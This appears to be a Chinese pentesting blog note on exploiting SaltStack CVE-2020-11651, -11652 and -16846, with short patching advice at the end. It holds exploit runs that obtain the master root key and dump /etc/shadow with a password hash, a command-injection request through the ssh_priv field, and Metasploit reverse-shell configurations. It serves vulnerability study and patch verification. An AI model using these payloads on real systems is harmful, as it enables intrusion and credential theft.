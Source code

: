 ```yaml
---
title: SaltStack
category:
- [Kali, Exploit]

tags:
  - null
date: 2020-12-04 20:23:00
top:
updated:
---
```

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具,是一个服务器基础架构集中化管理平台，具备配置管理，远程执行，监控等功能。

- `4505/4506` SaltStack Master与minions通信的端口
- `8000` 这是Salt的API端口,需要通过https访问

## 信息收集
```
 nmap -Pn -T4  -sV -p 4505,4506,8000 192.168.79.28
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-16 12:30 CST
Nmap scan report for 192.168.79.28
Host is up (0.00021s latency).

PORT     STATE SERVICE  VERSION
4505/tcp open  zmtp     ZeroMQ ZMTP 2.0
4506/tcp open  zmtp     ZeroMQ ZMTP 2.0
8000/tcp open  ssl/http CherryPy wsgiserver

```


## SaltStack水平权限绕过漏洞 CVE-2020-11651
----

在 CVE-2020-11651 认证绕过漏洞中，  
      攻击者通过构造恶意请求，  
                 可以绕过 Salt Master 的验证逻辑，  
                  调用相关未授权函数功能，  
从而可以造成远程命令执行漏洞。

影响版本：
 * SaltStack < 2019.2.4
 * SaltStack < 3000.2


### [CVE-2020-11651-poc](https://github.com/askDing/CVE-2020-11651-poc)验证
```
root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Salt version: 3000.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
root@kalimah:~/salt#
```
### MSF漏洞利用
```
Module options (exploit/linux/misc/saltstack_salt_unauth_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   MINIONS   .*               yes       PCRE regex of minions to target
   RHOSTS    10.190.26.13     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   ROOT_KEY                   no        Master's root key if you have it
   RPORT     4506             yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.79.28    yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path
```



### 漏洞修复
* SaltStack官方已发布最新版本修复了上述漏洞，建议相关用户及时更新规避风险。https://github.com/saltstack/salt/releases
* 禁止将Salt Master默认监听端口（4505、4506）向公网开放，并设置为仅对可信对象开放。

[参考]
[SaltStack认证绕过漏洞](https://github.com/vulhub/vulhub/tree/master/saltstack/CVE-2020-11651)
[SaltStack认证绕过](https://mp.weixin.qq.com/s/k2ClnCQdBi0FoId7hrRQNw)


## SaltStack任意文件读取 CVE-2020-11652
攻击者可构造恶意请求，读取，写入服务器上任意文件

### [CVE-2020-11651-poc](https://github.com/askDing/CVE-2020-11651-poc)工具验证

[salt-securiy-backports](https://github.com/askDing/salt-security-backports.git)
也可验证
```
root@kalimah:~/salt# python2 exploit.py --master 192.168.115.130 -r /etc/shadow
[+] Salt version: 2019.2.0
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: GkJiProN36+iZ53buhvhm3dWcC/7BZyEomu3lSFucQF9TkrCRfA32EIFAk/yyQMkCyqZyxjjp/E=
[+] Attemping to read /etc/shadow from 192.168.115.130
root:$6$7qfolaa/$3yhszWj/VUJjfPaqr1yO6NLgV/FhHnVT9Pr6spwJ/F0BJw5vFM.3KjtwcnnuGo5uSJJkLrd28jXrmVZUD9nEI/:17812:0:99999:7:::
daemon:*:17785:0:99999:7:::
bin:*:17785:0:99999:7:::
sys:*:17785:0:99999:7:::
sync:*:17785:0:99999:7:::
games:*:17785:0:99999:7:::
man:*:17785:0:99999:7:::
[...]
```

## SaltStack命令注入漏洞 CVE-2020-16846

2020年11月SaltStack官方披露了CVE-2020-16846和CVE-2020-25592两个漏洞，
其中CVE-2020-25592允许任意用户调用SSH模块，
CVE-2020-16846允许用户执行任意命令。
组合这两个漏洞，将可以使未授权的攻击者通过Salt API执行任意命令。

### BurpSuite复测
```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b

```
![saltstack-1](../images/saltstack-1.png)

### MSF复测

```

Module options (exploit/linux/http/saltstack_salt_api_cmd_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.190.75.23     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8000             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.79.28    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

   